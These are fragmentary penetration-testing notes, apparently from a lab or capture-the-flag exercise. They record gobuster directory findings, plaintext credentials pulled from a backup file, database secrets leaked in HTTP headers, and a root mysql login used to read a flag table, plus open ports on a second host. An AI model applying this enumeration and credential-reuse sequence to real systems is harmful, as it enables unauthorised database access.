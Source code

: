 ## 81
```bash
gobuster found
/default
/webapp
	/emails
	/css
	/assets
	/install
	/includes
	/lang
	/my_files
	/upload
	/robots.txt
	/templates
	

	/webapp/img/custom/thumbs/ > didnt find again...
```

```bash
	cat users.bak                                                                                                                                        
	john1:password123
	peter:youdonotguessthatone5

	Head we got from burp after trying to log: 
	first erro 

		/500.php 
	then:

		/home

	X-DB-Key: x41x41x412019!
	X-DB-User: root
	X-DB-name: mysql

	mysql -u root -p -P 13306 -h 172.16.64.81 

	show databases;
	show tables;
	select * from flag;
```

## 91

80/tcp   open  http                                                                            
6379/tcp open  redis


## 92
